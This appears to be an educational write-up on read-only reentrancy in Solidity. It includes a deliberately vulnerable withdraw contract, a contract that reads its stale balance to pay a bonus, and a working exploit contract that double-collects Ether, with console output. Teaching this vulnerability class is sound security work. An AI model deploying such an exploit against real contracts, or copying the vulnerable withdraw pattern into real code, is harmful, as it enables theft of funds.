 # Read-Only Reentrancy

## Summary

Unlike `Cross-Contract Reentrancy` which vulnerability depends on smart contracts sharing the same **state variables**, the `Read-Only Reentrancy` relies on Smart Contract that read a **not-updated-yet state variables** from another contraact.

We are going to take a look at this 2 simple smart contracts, the first smart contract has a `reentrancy vulnerability`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract ReentrancyVuln{
    mapping (address => uint256) public balances;

    constructor() payable{}

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawAll() public{
        uint toWithdraw = balances[msg.sender];
        (bool sent, ) = msg.sender.call{value: toWithdraw}("");
        require(sent);
        balances[msg.sender] = 0;
    }

}
```

The Second smart contract is actually using the state variable of `balances` from the `ReentrancyVuln` smart contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./vr.sol";

contract StateReader{

    ReentrancyVuln public rv;

    constructor(address payable _rv) payable {
        rv = ReentrancyVuln(_rv);
    }

    function bonus() public {
        uint bonusToPay = rv.balances(msg.sender);
        (bool sent, ) = msg.sender.call{value: bonusToPay}("");
        require(sent);
    }
}
```

The attack idea here is first, we know that the `withdrawAll()` function is not following `CEI Pattern` which is of course introduce the reentrancy problems, the second is, when we receive the callback, the `balances` variable has not been updated yet, meaning if here we call the `bonus()` function on the `StateReader` contract, we will get another 1 Ether because we get paid as much as our current `balances`, which hasn't been updated yet.

Using this attack Idea, we can craft an exploit just like this

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./vr.sol";
import "./sr.sol";
import "hardhat/console.sol";

contract exploiter{
    ReentrancyVuln public vr;
    StateReader public sr;

    constructor(address payable _vr, address payable _sr) {
        vr = ReentrancyVuln(_vr);
        sr = StateReader(_sr);
    }

    function attacks() public payable{
        vr.deposit{value: 1 ether}();
        vr.withdrawAll();
    }

    receive() external payable { 
        if(msg.sender == address(vr)){
            console.log("receiving 1 ether from ", msg.sender);
            sr.bonus();
        }else{
            console.log("receiving 1 ether from ", msg.sender);
        }
    }
}
```

Running the `attacks()` will pop 2 console logs with this message to inform us which Ether comes from which smart contract.

```bash
console.log:
receiving 1 ether from 0x5A86858aA3b595FD6663c2296741eF4cd8BC4d01 (ReentrancyVuln)
receiving 1 ether from 0x0498B7c793D7432Cd9dB27fb02fc9cfdBAfA1Fd3 (StateReader)
```

## References

- [Reentrancy](https://scsfg.io/hackers/reentrancy/)
- [What is Read-Only Reentrancy](https://www.halborn.com/blog/post/what-is-read-only-reentrancy)
- [Read-Only Reentrancy Presentation @DevCon 6 Bogota](https://archive.devcon.org/archive/watch/6/read-only-reentrancy-a-novel-vulnerability-class-responsible-for-100m-funds-at-risk/?tab=YouTube)
- [The Ultimate Guide to Reentrancy](https://medium.com/immunefi/the-ultimate-guide-to-reentrancy-19526f105ac)